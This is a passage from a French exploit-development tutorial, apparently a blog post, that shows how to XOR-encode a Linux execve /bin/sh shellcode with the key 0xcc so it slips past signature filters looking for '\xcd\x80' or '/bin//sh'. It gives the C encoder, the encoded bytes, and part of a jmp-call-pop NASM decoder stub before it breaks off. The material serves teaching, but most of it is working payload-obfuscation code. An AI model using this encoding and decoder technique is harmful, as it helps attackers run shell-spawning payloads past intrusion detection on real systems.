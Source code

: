 Bien, je vais maintenant montrer comment encoder simplement un shellcode, en vue de passer certaines protections, comme par exemple la reconnaissance des opcodes "\xcd\x80" (appel système) ou "/bin//sh".

Le plus simple à implémenter, est un cryptage XOR, avec une clef d'un octet.

Le shellcode devra être décodé par une routine, avant d'être exécuté. Il aura donc cette forme :

	:::raw
	[ Decoder   ]
	[ Shellcode ]

Pour le decoder, le plus dur va être de déterminer l'adresse exacte du shellcode, car il n'y a aucuns moyens de le déterminer à l'avance. Pour se faire, nous utiliserons les instructions jmp shellcode, call decoder, pop. Il faudra aussi qu'il sache où le shellcode se termine, j'utiliserais un octet 0x90 que je mettrais à la fin du shellcode pour savoir quand s'arrêter.

Bien, commençons par prendre un shellcode, et le crypter avec une clef quelquonque (Il ne faut pas qu'il y ai de 0x90 ni de 0x00 dans les opcodes). On va reprendre le shellcode exécutant un shell, il ira très bien.

Voici le programme que j'ai utilisé pour le crypter avec la clef 0xcc :

	:::c
	#include <stdio.h>

	int main(void)
	{
    	char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3"
	    "\x50\x53\x89\xe1\x50\x51\x53\xb0\x3b\x50\xcd\x80";
	    int i;

	    for(i = 0; i < sizeof(shellcode)-1; i++)
	    {
	        printf(",0x%.2x", (unsigned char)shellcode[i] ^ 0xcc);
	    }
	    printf("\n");
	    return 0;
	}

Ce qui nous donne :

	:::console
	,0xfd,0x0c,0x9c,0xa4,0xe3,0xe3,0xbf,0xa4,0xa4,0xe3,0xae,0xa5,0xa2,0x45,0x2f,0x9c,0x9f,0x45,0x2d,0x9c,
	0x9d,0x9f,0x7c,0xf7,0x9c,0x01,0x4c

Codons maintenant le decoder :

	:::nasm
	section .text
	global _start

	_start:
	jmp short CALL          ; On saute sur le CALL
	RET:
	pop esi                 ; On met dans esi l'adresse du shellcode
	LOOP:
	cmp byte[esi], 0x90     ; Est-on arrivé à la fin ?
	je SHELLCODE            ; Si oui, le shellcode est decrypté, on peut jmp dessus
	xor byte[esi], 0xcc     ; Sinon, on décrypte l'octet courant avec la clef 0xcc
	inc esi
	jmp LOOP
